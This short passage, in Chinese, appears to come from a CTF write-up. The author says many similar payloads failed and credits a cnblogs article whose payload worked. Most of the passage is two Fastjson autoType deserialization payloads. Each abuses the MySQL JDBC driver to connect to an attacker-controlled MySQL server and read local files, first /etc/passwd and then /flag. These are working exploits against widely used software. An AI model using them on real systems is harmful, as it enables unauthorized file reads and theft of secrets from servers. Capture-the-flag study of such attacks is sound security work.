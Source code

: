 试了很多类似的 payload，都行不通。

最后找到了这个文章，用里面的 payload 打通了。

[VCTF-archived elephant - gxngxngxn - 博客园 (cnblogs.com)](https://www.cnblogs.com/gxngxngxn/p/18081452)

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo": 3306,"databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":" 3306","allowUrlInLocalInfile":"true","allowLoadLocalInfile":"true","allowLoadLocalInfileInPath":"/","maxAllowedPacket":"655360","user":"fileread_/etc/passwd","PORT.1":" 3306","HOST.1":"x.x.x.x","NUM_HOSTS":"1","HOST":"x.x.x.x","DBNAME":"test"}}
```

![](../../../../images/fac2e7268e3ab8ad0a1c26f048879f93.png)

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo": 3306,"databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":" 3306","allowUrlInLocalInfile":"true","allowLoadLocalInfile":"true","allowLoadLocalInfileInPath":"/","maxAllowedPacket":"655360","user":"fileread_/flag","PORT.1":" 3306","HOST.1":"x.x.x.x","NUM_HOSTS":"1","HOST":"x.x.x.x","DBNAME":"test"}}
```

